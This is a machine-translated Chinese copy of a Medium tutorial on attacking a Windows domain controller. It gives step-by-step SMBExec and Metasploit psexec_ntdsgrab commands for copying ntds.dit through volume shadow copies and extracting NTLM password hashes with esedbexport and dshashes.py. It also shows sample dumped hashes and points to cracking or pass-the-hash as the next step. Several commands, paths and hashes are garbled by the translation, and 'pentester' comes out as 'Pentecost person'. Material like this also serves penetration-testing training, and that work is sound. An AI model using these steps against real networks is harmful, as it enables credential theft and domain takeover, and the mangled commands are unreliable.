





# 如何攻击域控制器🤔😮😮

> 原文：<https://medium.com/codex/how-to-attacking-the-domain-controller-317e61ee6829?source=collection_archive---------17----------------------->

马克西姆·霍普曼在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上的照片

如果你有幸获得了一个本地管理帐户或域管理帐户，下一个目标通常是域控制器(DC)。对任何一个圣灵降临节的人来说，最快乐的时刻之一就是他们成功地将所有的哈希从 DC 中取出来。

即使有管理凭证，我们也无权读取存储在 c:\Windows\NTDS\ntds.dit 文件中的域控制器上的哈希。这是因为当 Active Directory 不断访问该文件时，该文件被读锁定。这个问题的解决方案是使用 Windows 中的卷影复制功能来创建该文件的副本。

## **SMBExec**

这就是 SMBExec 工具发挥作用的地方。brav0hax 制作的工具 SMBExec 利用卷影复制功能抓取 SYS reg 键和 ntds.dit 文件。让我们来看看我们在设置您的设备一节中安装的 SMBExec 模块。

> ●运行 SMBExec

> ○ cd /opt/smbexec
> 
> ○ ./smbexec

> ●为获取散列选择 3
> 
> ●为域控制器选择 2
> 
> ●提供用户名/哈希/域/IP/NTDS 驱动器/NTDS 路径

我们刚刚看到 SMBExec 使用有效的凭据、经过验证的路径连接到域控制器，并尝试创建 ntds.dit 和 sys 文件的卷影副本。完成后，SMBExec 试图解析这些文件，并收集和存储来自 LDAP 的所有密码散列。

一旦 SMBExec 完成并成功，它将根据日期时间标记在同一目录中创建一个文件夹。如果你进入这个文件夹，你会看到一个名为[domain]-dc-hashes.lst 的文件。

在示例受损的域控制器中，我能够找到以下用户的 NTLM 哈希:

> 管理员:500:aad3b 435 b 51404 eeaad 3 b 435 b 51404 ee:8 B9 e 471 f 83d 355 EDA 6 BF 63524 b 044870:::客人:501:aad3b 435 b 51404 eeaad 3 b 435 b 51404 ee:31 D6 cf E0 d 16 a e 931 b 73 c 59d 7 E0 c 089 c 0:::admin _ account:1000:aad 3 B4

请记住，如果您正在查询一个大型域控制器，去喝杯咖啡，因为这将需要相当长的时间。在您收集了所有这些散列之后，您可以开始密码破解或者利用散列的传递来继续利用盒子。

## **PSExec_NTDSgrab**

另一种转储散列的好方法是使用名为 psexec_ntdsgrab 的 metasploit 模块。与 SMBExec 类似，PSExec_NTDSGrab“对 Active Directory 域控制器进行身份验证，并创建%SYSTEMDRIVE%的卷影副本。然后，它下载 ntds.dit 文件以及系统配置单元的副本并存储它们。ntds.dit 和系统配置单元副本可以与其他工具结合使用，用于离线提取 AD 密码哈希。所有这些都是在不向目标主机上传任何二进制文件的情况下完成的。”

**使用本地/域管理员凭证，让我们获取域散列:**

> ● msfconsole
> 
> ●使用辅助/管理/smb/psexec_ntdsgrab
> 
> ●确保设置 RHOST、SMBDomain、SMBPass 和 SMBUser 的字段
> 
> ●利用

如果成功抓取了 NTDS.dit 文件，Metasploit 会将该文件放到/root/.ms4/loot/文件夹中。接下来，我们需要用 esedbtool 和 NTDSextract 将 dit 文件转换成哈希表。

## **esedbexport 命令:**

> ●如何运行:esedbexport-t[导出位置] [NTDS.dit 文件]
> 
> ●/opt/esedbtools/esedbexport-t/tmp/NTDs/root/. ms F4/loot/2015 02 14180250 _ default _ 172 . 16 . 151 . 200 _ psexec . NTDs grab . _ 641158。

我们需要运行 dshashes.py 来将我们的表转换成密码散列。

> 如何运行:
> 
> ●ds hashes . py[datatable table][link _ table]—password hashes[来自 ntdsgrab 的原始 bin 文件]
> 
> ●python/opt/NTDSXtract/dshashes . py/tmp/NTDs . export/datatable . 4/tmp/NTDs . export/link _ table . 7/tmp/—password hashes/root/. ms F4/loot/2015 02 14180253 _ default _ 172 . 16 . 151 . 200 _ psexec . ntdsgrab . _ 127578。

这只是转储域散列的另一种方式。在各种测试中，我遇到过 SMBExec 或 psexec_ntdsgrab 由于某种奇怪的原因而无法工作的情况。换句话说，有时候一个工具工作，而另一个工具不工作。因此，确保你的后兜里有这两种工具。